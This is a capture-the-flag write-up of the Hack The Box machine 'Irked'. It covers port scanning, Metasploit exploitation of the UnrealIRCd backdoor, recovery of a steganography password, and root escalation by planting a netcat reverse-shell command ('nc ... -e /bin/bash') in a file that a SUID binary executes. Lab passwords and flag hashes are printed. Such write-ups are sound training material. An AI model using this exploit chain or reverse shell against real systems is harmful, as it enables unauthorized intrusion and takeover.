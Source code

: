 ```yaml
---
layout: default
title: "HTB Irked"
description: "10.10.10.117 | 20 pts"
header-img: "boxes/screenshots/20_irked/irked.png"
tags: [hackthebox, htb, boot2root, writeup, write-up, linux, ircd, irc, steganogpraphy, steg]
---
```


# HTB Irked (10.10.10.117) MACHINE WRITE-UP

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : PRIVILEGE ESCALATION (djmardov -&gt; root)](#part-5--privilege-escalation-djmardov---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.117

  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  111/tcp   open  rpcbind
  6697/tcp  open  ircs-u
  8000/tcp  open  http-alt
  8067/tcp  open  infi-async
  46040/tcp open  unknown
  65534/tcp open  unknown

$ nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117

  PORT      STATE  SERVICE     VERSION
  22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
  |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
  |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
  |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
  80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.10 (Debian)
  |_http-title: Site doesn't have a title (text/html).
  111/tcp   open   rpcbind     2-4 (RPC #100000)
  | rpcinfo: 
  |   program version   port/proto  service
  |   100000  2,3,4        111/tcp  rpcbind
  |   100000  2,3,4        111/udp  rpcbind
  |   100024  1          35800/tcp  status
  |_  100024  1          56850/udp  status
  6697/tcp  open   ircs-u?
  |_irc-info: Unable to open connection
  8000/tcp  closed http-alt
  8067/tcp  open   infi-async?
  |_irc-info: Unable to open connection
  46040/tcp closed unknown
  65534/tcp open   unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.117`__: 

  ![Landing Page](./screenshots/20_irked/80_irked.png)

- Page Source:
  ```html
  <img src=irked.jpg>
  <br>
  <b><center>IRC is almost working!</b></center>
  ```
  __Notes__:
  - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
  - The pages also only contains an image (__*irked.jpg*__)
  - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

---

## PART 3 : EXPLOITATION

1. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     $ msfconsole
     
     $ use exploit/unix/irc/unreal_ircd_3281_backdoor

     $ show options

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   6667             yes       The target port (TCP)

     $ set RHOSTS 10.10.10.117
     $ set RPORT 6697
     $ run

       [*] Started reverse TCP double handler on 10.10.15.122:4444 
       [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
           :irked.htb NOTICE AUTH :*** Looking up your hostname...
       [*] 10.10.10.117:6697 - Sending backdoor command...
       [*] Accepted the first client connection...
       [*] Accepted the second client connection...
       [*] Command: echo 4JezGWGL0WskDMqt;
       [*] Writing to socket A
       [*] Writing to socket B
       [*] Reading from sockets...
       [*] Reading from socket A
       [*] A: "4JezGWGL0WskDMqt\r\n"
       [*] Matching...
       [*] B is input...
       [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...

     ```
   - While inside the reverse shell:
     ```console
     $ id

       uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     $ python -c 'import pty; pty.spawn("/bin/bash")'

     $ cat /etc/passwd | grep bash

       root:x:0:0:root:/root:/bin/bash
       djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     $ cd /home/djmardov
     $ cd Documents
     $ ls -lah

       drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
       drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
       -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
       -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     $ cat .backup

       Super elite steg backup pw
       UPupDOWNdownLRlrBAbaSSss
     ```

   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

2. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/20_irked/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```

---

## PART 4 : GENERATE USER SHELL

- __`ssh`__:
  ```console
  $ ssh -l djmardov 10.10.10.117
  $ djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG

  $ cat ~/Documents/user.txt

    4a66a78b12dc0e661a59d3f5c0267a8e

  ```

---

## PART 5 : PRIVILEGE ESCALATION (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   $ find / -uid 0 -perm -4000 -type f 2>/dev/null

     ...omitted...
     /usr/bin/viewuser
     ...omitted...

   $ /usr/bin/viewuser
   
     This application is being devleoped to set and test user permissions
     It is still being actively developed
     (unknown) :0           2019-04-27 13:17 (:0)
     djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
     sh: 1: /tmp/listusers: not found

   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
>
2. Create payload:
   ```console
   $ echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
3. Establish __root__ shell:
   1. Local terminal:
      ```console
      $ nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      $ /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      # id 

        uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      # find / -name root.txt

        /root/root.txt

      # cat /root/root.txt

        8d8e9e8be64654b6dccc3bff4522daf3
      ```
